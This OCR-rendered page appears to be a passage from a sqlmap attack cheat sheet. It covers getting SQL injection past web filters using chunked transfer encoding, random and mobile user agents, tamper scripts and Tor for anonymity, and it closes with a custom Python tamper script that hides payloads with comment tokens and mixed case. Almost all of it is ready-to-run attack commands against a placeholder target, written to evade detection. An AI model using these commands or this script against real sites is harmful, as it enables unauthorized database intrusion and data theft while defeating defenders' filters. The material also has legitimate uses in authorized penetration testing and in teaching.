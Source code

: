     # Skip URL encoding
    python sqlmap.py -u "http://target.com/page?id=1" --skip-urlencode
:::

### Advanced Evasion

::: {.attack-vector .risk-medium}
#### Chunked Transfer and Mobile Agents

::: code-block
    # Chunked transfer encoding
    python sqlmap.py -u "http://target.com/page?id=1" --chunked

    # Mobile User-Agent
    python sqlmap.py -u "http://target.com/page?id=1" \
      --mobile --random-agent

    # Custom payload encoding
    python sqlmap.py -u "http://target.com/page?id=1" \
      --tamper=charencode --level=3 --risk=2

    # Tor proxy for anonymity
    python sqlmap.py -u "http://target.com/page?id=1" \
      --tor --tor-port=9050 --check-tor
:::
:::

### Custom Tamper Script Example

::: code-block
    # Create custom tamper script
    # File: custom_tamper.py
    #!/usr/bin/env python

    from lib.core.enums import PRIORITY

    __priority__ = PRIORITY.LOW

    def dependencies():
        pass

    def tamper(payload, **kwargs):
        """
        Custom tamper script example
        Replace spaces with /**/ comments and randomize case
        """
        if payload:
            payload = payload.replace(" ", "/**/")
            payload = "".join(char.upper() if i % 2 else char.lower() 
                             for i, char in enumerate(payload))
        return payload
